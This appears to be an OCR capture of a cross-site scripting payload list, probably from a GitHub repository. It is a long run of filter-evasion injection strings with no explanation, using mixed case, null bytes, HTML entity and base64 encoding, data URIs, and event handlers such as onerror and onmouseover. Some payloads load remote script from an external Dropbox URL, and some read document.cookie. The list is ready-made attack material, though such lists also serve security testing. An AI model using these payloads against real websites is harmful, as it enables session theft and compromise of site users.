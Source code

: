 &lt;script>alert(123);&lt;/script> &lt;ScRipT>alert("XSS");&lt;/ScRipT> &lt;script>alert(123)&lt;/script> &lt;script>alert("hellox worldss");&lt;/script> &lt;script>alert(“XSS”)&lt;/script>  &lt;script>alert(“XSS”);&lt;/script> &lt;script>alert(‘XSS’)&lt;/script> “>&lt;script>alert(“XSS”)&lt;/script> &lt;script>alert(/XSS”)&lt;/script> &lt;script>alert(/XSS/)&lt;/script> &lt;/script>&lt;script>alert(1)&lt;/script> ‘; alert(1); ‘)alert(1);// &lt;ScRiPt>alert(1)&lt;/sCriPt> &lt;IMG SRC=jAVasCrIPt:alert(‘XSS’)> &lt;IMG SRC=”javascript:alert(‘XSS’);”> &lt;IMG SRC=javascript:alert(&amp;quot;XSS&amp;quot;)> &lt;IMG SRC=javascript:alert(‘XSS’)>       &lt;img src=xss onerror=alert(1)>   &lt;iframe %00 src="&amp;Tab;javascript:prompt(1)&amp;Tab;"%00>  &lt;svg>&lt;style>{font-family&amp;colon;'&lt;iframe/onload=confirm(1)>'  &lt;input/onmouseover="javaSCRIPT&amp;colon;confirm&amp;lpar;1&amp;rpar;"  &lt;sVg>&lt;scRipt %00>alert&amp;lpar;1&amp;rpar; {Opera}  &lt;img/src=`%00` onerror=this.onerror=confirm(1)  &lt;form>&lt;isindex formaction="javascript&amp;colon;confirm(1)"  &lt;img src=`%00`&amp;NewLine; onerror=alert(1)&amp;NewLine;  &lt;script/&amp;Tab; src='https://dl.dropbox.com/u/13018058/js.js' /&amp;Tab;>&lt;/script>  &lt;ScRipT 5-0*3+9/3=>prompt(1)&lt;/ScRipT giveanswerhere=?  &lt;iframe/src="data:text/html;&amp;Tab;base64&amp;Tab;,PGJvZHkgb25sb2FkPWFsZXJ0KDEpPg==">  &lt;script /*%00*/>/*%00*/alert(1)/*%00*/&lt;/script /*%00*/  &amp;#34;&amp;#62;&lt;h1/onmouseover='\u0061lert(1)'>%00  &lt;iframe/src="data:text/html,&lt;svg &amp;#111;&amp;#110;load=alert(1)>">  &lt;meta content="&amp;NewLine; 1 &amp;NewLine;; JAVASCRIPT&amp;colon; alert(1)" http-equiv="refresh"/>  &lt;svg>&lt;script xlink:href=data&amp;colon;,window.open('https://www.google.com/')>&lt;/script  &lt;svg>&lt;script x:href='https://dl.dropbox.com/u/13018058/js.js' {Opera}  &lt;meta http-equiv="refresh" content="0;url=javascript:confirm(1)"> &lt;iframe src=javascript&amp;colon;alert&amp;lpar;document&amp;period;location&amp;rpar;>  &lt;form>&lt;a href="javascript:\u0061lert&amp;#x28;1&amp;#x29;">X  &lt;/script>&lt;img/*%00/src="worksinchrome&amp;colon;prompt&amp;#x28;1&amp;#x29;"/%00*/onerror='eval(src)'> &lt;img/&amp;#09;&amp;#10;&amp;#11; src=`~` onerror=prompt(1)> &lt;form>&lt;iframe &amp;#09;&amp;#10;&amp;#11; src="javascript&amp;#58;alert(1)"&amp;#11;&amp;#10;&amp;#09;;>  &lt;a href="data:application/x-x509-user-cert;&amp;NewLine;base64&amp;NewLine;,PHNjcmlwdD5hbGVydCgxKTwvc2NyaXB0Pg=="&amp;#09;&amp;#10;&amp;#11;>X&lt;/a  http://www.google&lt;script .com>alert(document.location)&lt;/script  &lt;a&amp;#32;href&amp;#61;&amp;#91;&amp;#00;&amp;#93;"&amp;#00; onmouseover=prompt&amp;#40;1&amp;#41;&amp;#47;&amp;#47;">XYZ&lt;/a  &lt;img/src=@&amp;#32;&amp;#13; onerror = prompt('&amp;#49;')  &lt;style/onload=prompt&amp;#40;'&amp;#88;&amp;#83;&amp;#83;'&amp;#41;  &lt;script ^__^>alert(String.fromCharCode(49))&lt;/script ^__^  &lt;/style &amp;#32;>&lt;script &amp;#32; :-(>/**/alert(document.location)/**/&lt;/script &amp;#32; :-(  &amp;#00;&lt;/form>&lt;input type&amp;#61;"date" onfocus="alert(1)">  &lt;form>&lt;textarea &amp;#13; onkeyup='\u0061\u006C\u0065\u0072\u0074&amp;#x28;1&amp;#x29;'>  &lt;script /***/>/***/confirm('\uFF41\uFF4C\uFF45\uFF52\uFF54\u1455\uFF11\u1450')/***/&lt;/script /***/  &lt;iframe srcdoc='&amp;lt;body onload=prompt&amp;lpar;1&amp;rpar;&amp;gt;'>  &lt;a href="javascript:void(0)" onmouseover=&amp;NewLine;javascript:alert(1)&amp;NewLine;>X&lt;/a>  &lt;script ~~~>alert(0%0)&lt;/script ~~~>  &lt;style/onload=&amp;lt;!--&amp;#09;&amp;gt;&amp;#10;alert&amp;#10;&amp;lpar;1&amp;rpar;>  &lt;///style///>&lt;span %2F onmousemove='alert&amp;lpar;1&amp;rpar;'>SPAN  &lt;img/src='http://i.imgur.com/P8mL8.jpg' onmouseover=&amp;Tab;prompt(1)  &amp;#34;&amp;#62;&lt;svg>&lt;style>{-o-link-source&amp;colon;'&lt;body/onload=confirm(1)>'  &amp;#13;&lt;blink/&amp;#13; onmouseover=pr&amp;#x6F;mp&amp;#116;(1)>OnMouseOver {Firefox &amp; Opera}  &lt;marquee onstart='javascript:alert&amp;#x28;1&amp;#x29;'>^__^  &lt;div/style="width:expression(confirm(1))">X&lt;/div> {IE7}  &lt;iframe/%00/ src=javaSCRIPT&amp;colon;alert(1)  //&lt;form/action=javascript&amp;#x3A;alert&amp;lpar;document&amp;period;cookie&amp;rpar;>&lt;input/type='submit'>//  /*iframe/src*/&lt;iframe/src="&lt;iframe/src=@"/onload=prompt(1) /*iframe/src*/>  //|\\ &lt;script //|\\ src='https://dl.dropbox.com/u/13018058/js.js'> //|\\ &lt;/script //|\\  &lt;/font>/&lt;svg>&lt;style>{src&amp;#x3A;'&lt;style/onload=this.onload=confirm(1)>'&lt;/font>/&lt;/style>  &lt;a/href="javascript:&amp;#13; javascript:prompt(1)">&lt;input type="X">  &lt;/plaintext\>&lt;/|\>&lt;plaintext/onmouseover=prompt(1)  &lt;/svg>''&lt;svg>&lt;script 'AQuickBrownFoxJumpsOverTheLazyDog'>alert&amp;#x28;1&amp;#x29; {Opera}  &lt;a href="javascript&amp;colon;\u0061&amp;#x6C;&amp;#101%72t&amp;lpar;1&amp;rpar;">&lt;button>  &lt;div onmouseover='alert&amp;lpar;1&amp;rpar;'>DIV&lt;/div>  &lt;iframe style="xg-p:absolute;top:0;left:0;width:100%;height:100%" onmouseover="prompt(1)">  &lt;a href="jAvAsCrIpT&amp;colon;alert&amp;lpar;1&amp;rpar;">X&lt;/a>  &lt;embed src="http://corkami.googlecode.com/svn/!svn/bc/480/trunk/misc/pdf/helloworld_js_X.pdf">  &lt;object data="http://corkami.googlecode.com/svn/!svn/bc/480/trunk/misc/pdf/helloworld_js_X.pdf">  &lt;var onmouseover="prompt(1)">On Mouse Over&lt;/var>  &lt;a href=javascript&amp;colon;alert&amp;lpar;document&amp;period;cookie&amp;rpar;>Click Here&lt;/a>  &lt;img src="/" =_=" title="onerror='prompt(1)'">  &lt;%&lt;!--'%>&lt;script>alert(1);&lt;/script -->  &lt;script src="data:text/javascript,alert(1)">&lt;/script> &lt;iframe/src \/\/onload = prompt(1)  &lt;iframe/onreadystatechange=alert(1)  &lt;svg/onload=alert(1)  &lt;input value=&lt;>&lt;iframe/src=javascript:confirm(1)  &lt;input type="text" value=`` &lt;div/onmouseover='alert(1)'>X&lt;/div>  http://www.&lt;script>alert(1)&lt;/script .com  &lt;iframe